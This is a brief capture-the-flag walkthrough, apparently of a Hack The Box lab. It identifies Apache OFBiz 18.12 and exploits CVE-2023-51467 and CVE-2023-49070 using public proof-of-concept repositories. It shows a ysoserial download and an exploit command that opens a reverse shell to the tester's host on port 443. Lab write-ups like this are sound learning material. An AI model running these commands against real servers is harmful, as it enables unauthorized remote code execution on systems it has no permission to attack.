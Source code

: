 ![](images/Pasted%20image%2020250716183607.png)
From the bottom of the page, we can get the version of `Apache OFBiz`
`Powered by [Apache OFBiz.](http://ofbiz.apache.org) Release 18.12`

# CVE-2023-51467
Then Let's search its exploits and CVEs:
`CVE-2023-51467 and CVE-2023-49070` would be our target
```
https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC
This repo is a PoC with to exploit CVE-2023-51467 and CVE-2023-49070 preauth RCE vulnerabilities found in Apache OFBiz.
```

Let's use that exploit script to get the reverse shell
```
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar

┌──(wither㉿localhost)-[~/Templates/htb-labs/Bizness/ofbiz-CVE-2023-49070-RCE-POC]
└─$ python3 exploit.py https://bizness.htb/ shell 10.10.14.17:443                       
Not Sure Worked or not 

Remember to open your netcat to handle the reverse shell
```

Then we can get the reverse shell as `ofbiz`
